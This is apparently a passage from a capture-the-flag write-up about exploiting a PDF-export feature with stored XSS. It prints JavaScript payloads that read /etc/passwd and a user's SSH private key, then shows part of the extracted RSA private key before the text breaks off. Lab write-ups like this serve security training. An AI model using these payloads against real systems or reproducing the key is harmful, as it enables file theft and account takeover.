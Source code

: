 ## XSS

We can see that in the collections section there is a PDF export, meaning a pdf is sent from somewhere to the admin who then ueses it. Could this possibly be coming from our user?

From here we go back to the user tab and take a look at the collections area.

We use this [website](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) for the next section.

There is a section on xss with pdfs , convinently we have a pdf vuln on the site so we know that this could be a good exploit.

```php
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
We add this code to both the sections in the collections tab as the user and upload a file e.g test.txt with some simple contents for example 1 word.

We then navigate to the admin panel and go onto the collections tab and download the pdf in collections column. Sure enough it is the `/etc/passwd` file.

So we can now get files off the system and onto our box, next we try to read the ssh key for the user.
We know that the user is called `reader` as this is the user that came up in the passwd file.

we change the script to:
```php
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

And sure enough we get the ssh key for the user!.

## pdf to text

Now we have to find out a way to get the pdf key to text.

We find a github repository with a tools that we can do this with.
we run `git clone https://github.com/pdfminer/pdfminer.six.git` and then go into the tools folder and execute `python pdf2txt.py 5652.pdf -o id_rsa`.

If you get errors with this you will have to `pip install pdfminer.six` to get the depndancies for running this file with python.

We now edit this file in a text editor and change the formatting of the top and bottom lines slightly to march an ssh-key format. We know have this:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
```